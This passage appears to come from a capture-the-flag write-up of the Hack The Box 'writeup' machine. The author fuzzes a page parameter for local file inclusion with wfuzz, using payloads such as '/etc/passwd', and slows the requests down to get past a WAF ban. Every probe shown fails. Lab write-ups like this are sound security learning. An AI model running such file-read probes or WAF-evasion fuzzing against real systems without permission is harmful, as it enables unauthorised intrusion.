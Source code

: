 ```bash
Filtered Requests: 0
Requests/sec.: 0

 /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:78: UserWarning:Fatal exception: Pycurl error 7: Failed to connect to writeup.htb port 80: Connection refused
```

As expected, this eventually got me blocked.

While I waited, I used `curl` to see if there was a timeout limit specified in the header:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup/results/10.10.10.138/scans]
└─$ curl -I writeup.htb
HTTP/1.1 200 OK
Date: Thu, 15 Jul 2021 19:44:32 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Wed, 24 Apr 2019 20:15:00 GMT
ETag: "bd8-5874c5b2a3bbb"
Accept-Ranges: bytes
Content-Length: 3032
Vary: Accept-Encoding
Content-Type: text/html
```

It seemed I'd been unbanned, so it only lasted a couple of minutes. Good to know.

Next I checked if we could grab the index page via the `?page` parameter:

![[Pasted image 20210715203948.png]]

![[Pasted image 20210715204001.png]]

Neither of these worked, so I was pretty confident at this point that LFI wouldn't work.

I tried `wfuzz` one more time, with a delay to try and bypass the WAF:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup/results/10.10.10.138/scans]
└─$ wfuzz -u http://writeup.htb/writeups/index.php?page=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -s 1
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://writeup.htb/writeups/index.php?page=FUZZ
Total requests: 257

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                 
=====================================================================

000000001:   404        9 L      32 W       293 Ch      "/etc/passwd"                                                                                                                       ...[snip]...    

000000029:   404        9 L      32 W       293 Ch      "/etc/httpd/httpd.conf"                                                                                                                 

Total time: 0
Processed Requests: 29
Filtered Requests: 0
Requests/sec.: 0
```